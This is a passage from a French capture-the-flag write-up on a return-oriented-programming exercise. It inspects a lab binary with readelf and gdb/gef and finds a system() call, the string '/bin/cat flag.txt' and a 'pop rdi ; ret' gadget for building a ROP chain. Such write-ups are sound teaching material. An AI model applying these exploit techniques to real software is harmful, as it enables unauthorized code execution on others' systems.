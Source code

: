 Avec le command readelf :

``` sh
02_split# readelf -s split|grep FUNC|grep -v UND
    27: 00000000004005f0     0 FUNC    LOCAL  DEFAULT   13 deregister_tm_clones
    28: 0000000000400620     0 FUNC    LOCAL  DEFAULT   13 register_tm_clones
    29: 0000000000400660     0 FUNC    LOCAL  DEFAULT   13 __do_global_dtors_aux
    32: 0000000000400690     0 FUNC    LOCAL  DEFAULT   13 frame_dummy
    35: 00000000004006e8    90 FUNC    LOCAL  DEFAULT   13 pwnme
    36: 0000000000400742    17 FUNC    LOCAL  DEFAULT   13 usefulFunction
    45: 00000000004007d0     2 FUNC    GLOBAL DEFAULT   13 __libc_csu_fini
    50: 00000000004007d4     0 FUNC    GLOBAL DEFAULT   14 _fini
    61: 0000000000400760   101 FUNC    GLOBAL DEFAULT   13 __libc_csu_init
    63: 00000000004005e0     2 FUNC    GLOBAL HIDDEN    13 _dl_relocate_sta[...]
    64: 00000000004005b0    43 FUNC    GLOBAL DEFAULT   13 _start
    66: 0000000000400697    81 FUNC    GLOBAL DEFAULT   13 main
    69: 0000000000400528     0 FUNC    GLOBAL DEFAULT   11 _init
```


On dispose d'une fonction qui exécute une commande passée en paramètre :

    gef➤  disas usefulFunction
    Dump of assembler code for function usefulFunction:
    0x0000000000400742 <+0>:	push   rbp
    0x0000000000400743 <+1>:	mov    rbp,rsp
    0x0000000000400746 <+4>:	mov    edi,0x40084a         ; /bin/ls
    0x000000000040074b <+9>:	call   0x400560 <system@plt>
    0x0000000000400750 <+14>:	nop
    0x0000000000400751 <+15>:	pop    rbp
    0x0000000000400752 <+16>:	ret
    End of assembler dump.


Pour cet exercice, une chaîne de caractères est présente dans l'exécutable

gef➤  x/s &usefulString
0x601060 <usefulString>:	"/bin/cat flag.txt"

On peut donc envisager d'appeler l'adresse 0x000000000040074b (usefulFunction +7)
en ayant préalablement chargé l'adresse de usefulString dans le registre rdi.

## Construction de la ropchaine

### Recherche d'un gadget pour charger rdi.

```sh
02_split# ROPgadget --binary split --re "pop rdi"
Gadgets information
============================================================
0x00000000004007c3 : pop rdi ; ret

Unique gadgets found: 1
```
